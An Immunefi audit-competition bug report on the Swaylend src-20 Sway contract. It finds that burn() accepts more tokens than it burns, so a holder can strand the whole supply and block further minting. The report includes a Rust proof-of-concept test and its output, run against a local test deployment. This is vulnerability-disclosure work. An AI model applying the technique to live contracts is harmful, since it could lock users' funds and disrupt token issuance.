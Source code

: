 # #35793 \[SC-High] \`src-20.burn\` should use "==" instead of ">="

**Submitted on Oct 8th 2024 at 14:05:18 UTC by @jasonxiale for** [**IOP | Swaylend**](https://immunefi.com/audit-competition/iop-swaylend)

* **Report ID:** #35793
* **Report Type:** Smart Contract
* **Report severity:** High
* **Target:** https://github.com/Swaylend/swaylend-monorepo/blob/develop/contracts/src-20/src/main.sw
* **Impacts:**
  * Block stuffing

## Description

## Brief/Intro

While burning tokens, \`src-20.burn\` checks [msg\_amount() >= amount](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L153), and updates \`total\_supply\` as \`storage.total\_supply.read() - amount\` in [main.sw#L159-L160](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L159-L160), and afterwards, \`amount\` of token will be burned in [main.sw#L162](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L162)

The issue is that

1. The totalSupply is capped by [1\_000\_000\_000\_000\_000\_000u64](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L23C23-L23C51), which means there will be at most 1\_000\_000\_000\_000\_000\_000u64 amount of token
2. In \`src-20.burn\`, the \`storage.total\_supply\` is subtracted by \`amount\`, and \`amount\` of tokens will be burnt, which means \`amount\` is less than \`msg\_amount()\`, the rest of token will be left in the \`src-20\` contract.

**And because \`src-20\` contract doesn't have any ABI to transfer the token out, the token will be stucked in the contract**

## Vulnerability Details

As shown in the [following code](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L149-L166): \`\`\`Rust 149 #\[payable] 150 #\[storage(read, write)] 151 fn burn(sub\_id: SubId, amount: u64) { 152 require(sub\_id == DEFAULT\_SUB\_ID, "incorrect-sub-id"); 153 require(msg\_amount() >= amount, "incorrect-amount-provided"); <<<--- Here "==" should be used 154 require( 155 msg\_asset\_id() == AssetId::default(), 156 "incorrect-asset-provided", 157 ); 158 159 let new\_supply = storage.total\_supply.read() - amount; 160 storage.total\_supply.write(new\_supply); 161 162 burn(DEFAULT\_SUB\_ID, amount); 163 164 TotalSupplyEvent::new(AssetId::default(), new\_supply, msg\_sender().unwrap()) 165 .log(); 166 } \`\`\`

## Impact Details

So please consider in a worst situation:

1. The erc-20 owner mints \`MAX\_SUPPLY(1\_000\_000\_000\_000\_000\_000u64)\` amount of token to Alice
2. Alice calls \`erc-20.burn\` with \`amount\` as \`0\`, so all the token will be transferred to \`erc-20\` contract, and will be stucked.
3. The erc-20 owner can't mint any token more, because the \`total\_supply\` has reached its [MAX\_SUPPLY](https://github.com/Swaylend/swaylend-monorepo/blob/34ada63c18efd163ef80694c404d0573d49d46b4/contracts/src-20/src/main.sw#L133-L137)

## References

Add any relevant links to documentation or code

## Proof of Concept

## Proof of Concept

Please create a folder with path \`swaylend-monorepo/contracts/src-20/tests\`, and add the following code into \`swaylend-monorepo/contracts/src-20/tests/harness.rs\`

And run \`\`\`bash cargo test burn\_token -- --nocapture ... running 1 test mint wallet1 1000000000000000000 amount of token wallet\_1 balance: 1000000000000000000 wallet1 burn 1000000000000000000 amount of token wallet\_1 balance: 0 mint wallet1 1 amount of token test burn\_token ... ok

\`\`\`

As shown in the POC, the owner(wallet\_0) first mints wallet\_1 \`1000000000000000000\` amount of token, then wallet\_1 calls \`src-20.burn\` with \`amount\` as 0, and then if the owner tries to mint 1 amount of token, the tx will revert

\`\`\`Rust use fuels::{prelude::\*, types::ContractId}; use fuels::types::{Address, AssetId, Bits256, Bytes32, Identity}; use sha2::{Digest, Sha256};

// Load abi from json abigen!( Contract( name = "SingleAsset", abi = "/opt/swaylend-monorepo/contracts/src-20/out/debug/src-20-abi.json" ) );

\#\[tokio::test] async fn burn\_token() -> Result<()> { let max\_supply = 1\_000\_000\_000\_000\_000\_000u64; let mut wallets = launch\_custom\_provider\_and\_get\_wallets( WalletsConfig::new( Some(5), Some(1), Some(1\_000\_000\_000), /\* Amount per coin \*/ ), None, None, ) .await .unwrap(); let wallet\_0 = wallets.pop().unwrap(); let wallet\_1 = wallets.pop().unwrap();

```
let erc20_id &#x3D; Contract::load_from(
    &quot;/opt/swaylend-monorepo/contracts/src-20/out/debug/src-20.bin&quot;,
    LoadConfiguration::default(),
)
.unwrap()
.deploy(&amp;wallet_0, TxPolicies::default())
.await
.unwrap();

let identity_0   &#x3D; Identity::Address(Address::from(wallet_0.address()));
let erc20_instance &#x3D; SingleAsset::new(erc20_id.clone(), wallet_0.clone());
let erc20_contract_id: ContractId &#x3D; erc20_id.into();

let sub_id &#x3D; Bytes32::from([0u8; 32]);

erc20_instance.methods().constructor(identity_0).call().await?;
let identity_1 &#x3D; Identity::Address(Address::from(wallet_1.address()));

println!(&quot;mint wallet1 {} amount of token&quot;, max_supply);
erc20_instance.clone().with_account(wallet_0.clone()).methods().mint(identity_1, Some(Bits256(*sub_id)), max_supply).with_variable_output_policy(VariableOutputPolicy::Exactly(1)).call().await?;


let asset_id &#x3D; get_asset_id(sub_id, erc20_contract_id);
println!(&quot;wallet_1 balance: {}&quot;, get_wallet_balance(&amp;wallet_1, &amp;asset_id).await);


println!(&quot;wallet1 burn {} amount of token&quot;, max_supply);
let call_params &#x3D; CallParameters::new(max_supply, asset_id, 1_000_000);
erc20_instance.clone().with_account(wallet_1.clone()).methods().burn(Bits256(*sub_id), 0).with_tx_policies(TxPolicies::default().with_script_gas_limit(2_000_000)).call_params(call_params).unwrap().call().await?;

println!(&quot;wallet_1 balance: {}&quot;, get_wallet_balance(&amp;wallet_1, &amp;asset_id).await);

let one &#x3D; 1;
println!(&quot;mint wallet1 {} amount of token&quot;, one);
let burn_res &#x3D; erc20_instance.clone().with_account(wallet_0.clone()).methods().mint(identity_1, Some(Bits256(*sub_id)), one).with_variable_output_policy(VariableOutputPolicy::Exactly(1)).call().await;

assert!(burn_res.is_err());
Ok(())
```

}

pub(crate) fn get\_asset\_id(sub\_id: Bytes32, contract: ContractId) -> AssetId { let mut hasher = Sha256::new(); hasher.update(\*contract); hasher.update(\*sub\_id); AssetId::new(\*Bytes32::from(<\[u8; 32]>::from(hasher.finalize()))) } pub(crate) async fn get\_wallet\_balance(wallet: \&WalletUnlocked, asset: \&AssetId) -> u64 { wallet.get\_asset\_balance(asset).await.unwrap() } \`\`\`
